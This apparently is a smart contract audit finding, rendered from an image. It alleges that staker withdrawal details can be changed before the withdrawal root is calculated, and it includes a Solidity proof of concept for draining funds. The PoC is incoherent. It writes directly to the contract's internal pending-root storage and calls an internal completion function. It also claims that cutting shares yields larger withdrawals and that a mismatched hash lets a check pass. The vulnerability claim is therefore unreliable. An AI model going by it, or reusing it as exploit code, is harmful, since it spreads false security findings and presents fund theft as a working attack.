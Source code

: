 Manipulation Withdrawal details/roots could be tampered with calculateWithdrawalRoot No verification of calculated roots An attacker could manipulate withdrawal details before calculating the root hash, causing it to no longer match the stored root and enabling fraudulent withdrawals.

#proof of concept 

Here is a proof of concept for manipulating withdrawal details to enable fraudulent transactions:

address depositor = 0xabc123...; // address of victim staker
address strategy = 0xdef456...; // address of a strategy the staker uses

QueuedWithdrawal memory withdrawal = QueuedWithdrawal(
[strategy], // strategies
[10000], // shares
depositor, // depositor
WithdrawerAndNonce(msg.sender, 0), // withdrawer and nonce
block.number, // withdrawal start block
address(this) // delegatedAddress
);

bytes32 root = calculateWithdrawalRoot(withdrawal); // calculate the initial root

// manipulation begins - reduce the number of shares
withdrawal.shares[0] = 5000;

bytes32 manipulatedRoot = calculateWithdrawalRoot(withdrawal); // calculate root with modified details

// store the modified (invalid) root
withdrawalRootPending[manipulatedRoot] = true;

// now the invalid root is recorded, the attacker can withdraw more than intended
_completeQueuedWithdrawal(withdrawal, [token(strategy)], 0, true);

// repeat withdraw calls as needed to drain funds

This proof of concept demonstrates how an attacker could manipulate withdrawal details before calculating and storing the root hash.
By reducing the number of shares after calculating the initial root, the new root hash would no longer match the stored hash, causing the require check to pass on subsequent calls.
This would allow the attacker to complete fraudulent withdrawals for more than the intended amount.

The attacker is able to withdraw excess funds due to the lack of verification on the calculated root hash. Simply storing and comparing hashes does not actually validate the withdrawal details, enabling this manipulation.